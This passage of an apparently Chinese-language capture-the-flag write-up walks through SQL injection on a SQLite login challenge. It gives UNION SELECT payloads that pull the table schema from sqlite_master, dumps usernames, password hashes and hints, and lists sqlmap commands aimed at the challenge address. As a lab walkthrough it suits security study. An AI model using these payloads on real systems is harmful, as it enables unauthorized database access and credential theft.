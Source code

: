 `1' --+`,不报错，说明闭合方式确定了。

`1' order by 3 --+`报错，`1' order by 2 --+`不报错，说明字段是2，这里看源码也可以看出字段是2.

![akg4XR.png](https://s1.ax1x.com/2020/07/28/akg4XR.png)

`1' union select 1,2 --+`发现cookie处回显+2.

`1' union select name,sql from sqlite_master--+`得到

	+CREATE+TABLE+Users%28id+int+primary+key%2Cname+varchar%28255%29%2Cpassword+varchar%28255%29%2Chint+varchar%28255%29%29

也就是

```
CREATE TABLE Users(
id int primary key,
name varchar(255),
password varchar(255),
hint varchar(255)
)
```


![ak2gbt.png](https://s1.ax1x.com/2020/07/28/ak2gbt.png)

ps： sqlite数据库有一张sqlite_master表，里面有type/name/tbl_name/rootpage/sql记录着用户创建表时的相关信息

`1' union select id,group_concat(id) from users--+`得到1，2，3

`1' union select id,group_concat(name) from users--+`得到admin,fritze,hansi

`1' union select id,group_concat(password) from users--+`得到3fab54a50e770d830c0416df817567662a9dc85c、54eae8935c90f467427f05e4ece82cf569f89507、34b0bb7c304949f9ff2fc101eef0f048be10d3bd

`1' union select id,group_concat(hint) from users--+`得到
my fav word in my fav paper?!、my love isâ¦?、the password is password

整合一下

```
 id  hint                           name    password                                 
 1   my fav word in my fav paper?!  admin   3fab54a50e770d830c0416df817567662a9dc85c 
 2   my love isâ¦?              fritze   54eae8935c90f467427f05e4ece82cf569f89507 
 3   the password is password       hansi   34b0bb7c304949f9ff2fc101eef0f048be10d3bd 

```

#### sqlmap

sqlmap也可以跑出来。

```
python2 sqlmap.py -u http://220.249.52.133:46876/login.php "--data=usr=1&p
w=1" --batch --tables

python2 sqlmap.py -u http://220.249.52.133:46876/login.php "--data=usr=1&p
w=1" --batch -T Users --columns

python2 sqlmap.py -u http://220.249.52.133:46876/login.php "--data=usr=1&p
w=1" --batch -T Users --dump
```
